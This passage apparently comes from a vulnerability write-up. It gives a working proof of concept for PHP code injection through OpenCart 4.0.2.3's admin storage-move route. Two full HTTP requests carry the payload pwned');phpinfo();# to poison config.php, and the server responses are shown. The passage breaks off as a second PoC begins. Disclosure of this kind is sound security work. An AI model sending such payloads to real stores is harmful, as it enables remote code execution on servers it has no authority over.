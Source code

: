 The vulnerability in `common/security.storage` can be exploited by sending two GET requests.

{: .danger }
>The PoC do not fix the mismatch between the `DIR_STORAGE` variable written inside `config.php` and the actual folder created on disk (`/home/kali/Projects/OpenCart/4.0.2.3/pwned'\'');phpinfo();#`). This means that **the PoC completely breaks the application**. Be aware of this.

The first request has to be sent to: `route=common/security.storage&name=pwned');phpinfo();%23&path=<opencart_base_folder>&user_token=<user_token>`

```http
GET /admin_secret/index.php?route=common/security.storage&name=pwned');phpinfo();%23&path=/home/kali/Projects/OpenCart/4.0.2.3/&user_token=e5e8e0f6369ef124dd3d94d4d4e1d8ad HTTP/1.1
Host: 127.0.0.1:8888
Cookie: OCSESSID=fbc47c7e5098550f0c12070be0

--- RESPONSE ---

HTTP/1.1 200 OK

{"next":"http:\/\/127.0.0.1:8888\/admin_secret\/index.php?route=common\/security.storage&user_token=e5e8e0f6369ef124dd3d94d4d4e1d8ad&name=pwned');phpinfo();#&path=\/home\/kali\/Projects\/OpenCart\/4.0.2.3\/&page=2"}
```

The second one to: `route=common/security.storage&name=pwned');phpinfo();%23&path=<opencart_base_folder>&user_token=<user_token>&page=99`

```http
GET /admin_secret/index.php?route=common/security.storage&name=pwned');phpinfo();%23&path=/home/kali/Projects/OpenCart/4.0.2.3/&user_token=e5e8e0f6369ef124dd3d94d4d4e1d8ad&page=99 HTTP/1.1
Host: 127.0.0.1:8888
Cookie: OCSESSID=fbc47c7e5098550f0c12070be0

--- RESPONSE ---

HTTP/1.1 200 OK

{"success":"Success: Storage directory has been moved!"}
```

Now every page will include the poisoned `config.php` file, executing the injected code (in our case the `phpinfo()` function):

![storage-rce]({{page.screenshots}}storage-rce.png)
{: .text-center }

**Demo**:

<iframe width="560" height="315" src="https://www.youtube.com/embed/auTky_gm8Rk?si=kLfSwbpxzarV5N94" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

### PoC for common/security.admin

The vulnerability in `common/security.admin` can also be exploited by sending two different GET requests.
